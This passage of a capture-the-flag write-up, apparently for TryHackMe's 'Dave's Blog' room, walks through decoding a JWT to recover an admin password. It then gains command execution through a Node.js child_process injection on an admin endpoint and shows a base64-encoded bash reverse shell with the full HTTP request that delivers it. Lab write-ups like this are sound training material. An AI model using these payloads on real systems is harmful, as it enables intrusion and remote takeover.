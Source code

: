 It provided me with a JWT token that we can decode (base64). The `password` field contains the first flag.

~~~
kali@kali:/data/Dave_s_Blog$ export IFS=".";jwt="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjp0cnVlLCJfaWQiOiI1ZWM2ZTVjZjFkYzRkMzY0YmY4NjQxMDciLCJ1c2VybmFtZSI6ImRhdmUiLCJwYXNzd29yZCI6IlRITXtTdXBlclNlY3VyZUFkbWluUGFzc3dvcmQxMjN9IiwiX192IjowLCJpYXQiOjE2MDA4NDQ3MDR9.nioG_MjIcRGJ3PObm0QcDv_eIqRU6baBCYAi7aRWVPw";for j in $jwt; do echo "$j" | base64 -d;done
{"alg":"HS256","typ":"JWT"}{"isAdmin":true,"_id":"5ec6e5cf1dc4d364bf864107","username":"dave","password":"THM{SuperSecureAdminPassword123}","__v":0,"iat":1600844704}�*base64: invalid input
~~~

Flag 1: `THM{SuperSecureAdminPassword123}`

# Flag 2 / User flag

Now provided with credentials (`dave:THM{SuperSecureAdminPassword123}`), we can login and execute commands, as described in [this post](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44).

I was not able to execute commands using the below format:

~~~
{"exec":"require('child_process').exec('<command>');"}
~~~

But this format worked:

~~~
{"exec":"require('child_process').execSync('<command>').toString();"}
~~~

Let's make a reverse shell. We'll first encode it in base64:

~~~
$ echo -n "bash -i >& /dev/tcp/10.8.50.72/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjUwLjcyLzQ0NDQgMD4mMQ==
~~~

Start a listener (`rlwrap nc -nlvp 4444`) and intercept the authentication request in Burp Suite and modify it as follows:

~~~
POST /admin/exec HTTP/1.1
Host: 10.10.139.182
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.139.182/admin
Content-Type: application/json
Origin: http://10.10.139.182
Content-Length: 140
Connection: close
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjp0cnVlLCJfaWQiOiI1ZWM2ZTVjZjFkYzRkMzY0YmY4NjQxMDciLCJ1c2VybmFtZSI6ImRhdmUiLCJwYXNzd29yZCI6IlRITXtTdXBlclNlY3VyZUFkbWluUGFzc3dvcmQxMjN9IiwiX192IjowLCJpYXQiOjE2MDA4NDQ4MTd9.iYAlMdDV6SaG8TWaDiMyFfS2v69HYoRgFzfUhSMJ2bo

{"exec":"require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjUwLjcyLzQ0NDQgMD4mMQ== | base64 -d | bash').toString();"}
~~~
